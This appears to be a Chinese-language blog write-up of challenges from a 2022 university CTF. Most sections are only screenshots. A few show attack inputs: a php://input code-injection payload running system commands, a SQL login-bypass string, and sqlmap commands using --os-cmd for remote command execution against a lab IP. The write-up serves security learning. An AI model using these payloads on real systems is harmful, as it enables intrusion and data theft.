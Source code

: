 ```yaml
---
title: 2022年网安小学期-CTF
slug: /CTF/2022xuqctf
---
```

# 22年网安小学期-CTF

# 木册木兰

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656402244227-1535d8a9-9932-489c-af63-b357e1b72be7.png)

- 下载附件，然后根据提示可以看出就是栅栏密码，所以直接解密得到

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656402270709-22a55c9b-fd6e-4cef-b874-ef8a6146eb6b.png)

# inputer

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656402323639-3d802464-d117-4c8b-99b0-2b5c96c80556.png)

- 先源码，这里要用到php://伪协议
- 直接抓包然后改包，构造 `php://input`，利用 `system("ls");`输出当前目录下所包含的文件，发包后发现可利用

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656403524194-775abc02-cd99-402a-8efb-b0be856fd9e6.png)

- 那就直接用命令 `<?php system("cat /flag.txt");?>`获得flag

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656403931462-65c99e45-585b-4da9-aa67-ebbf7b040faf.png)

# WEB_blind_exec

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656418501152-cffd8b07-e4b3-4c7d-88e9-2af93a200893.png)

# LFI

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656425908372-f0b23cde-7697-4219-a001-09d5cd26f703.png)

# baby_sql

```
admin' or '1'='1
```

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656463477302-afa6aabf-6cba-40da-a6ab-9c6d651c78ce.png)

# WEB_randnum

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656463743749-0e0e3ae5-1757-4c23-a7d3-04eef75b7ca4.png)

# WEB_babyphp

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656463757900-66e0ad0f-8176-46e7-aade-bff9d0305c50.png)

# easy_getshell

- [pbot复现](https://www.anquanke.com/post/id/212603?from=groupmessage#h2-6)

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656489800858-4a805906-bd00-402f-b3cb-b4cba8d14c15.png)

# sessionlfi

- 源码中发现页面传参使用get方法，猜测存在sql注入漏洞

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656507098348-a7fb1359-f1d6-48d8-9fae-9f5423965b72.png)

> 测试payload：
>
> sqlmap -u http://218.94.60.213:13198/table.php?id=1 -dbs
>
> 爆破数据库，共有4个数据库

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656507233920-96f5d286-73db-44df-adf0-8dabadee487b.png)

> 使用sqlmap的-os-cmd远程执行命令，看到根目录有flag字样文件
>
> sqlmap -u http://218.94.60.213:13198/table.php?id=1 --os-cmd="ls /"

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656507912473-95a1f3c3-29cc-4020-9ed2-c6b1d782801b.png)

> 最后继续使用远程命令查看得到flag
>
> sqlmap -u http://218.94.60.213:13198/table.php?id=1 --os-cmd="cat /flag_asflkhasklfhaklshfkjlashfjkas"

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656507964485-4c6551f9-be4e-48c3-bc18-37a4f769352b.png)

# happy

- 题目：

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656578511408-899d4caa-da5f-4f4d-b926-301072c6807c.png)

- 解题代码：

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1660034476965-e38a5350-cba4-4601-b203-f106b0ffc8f4.png)

# rsarsa

- 题目：

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656578279183-f84801df-8c4f-4b41-9c7f-6d23eced6b56.png)

- 解题代码：

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1660034540344-f99ee9de-c416-4530-8855-8f30f950ea9f.png)
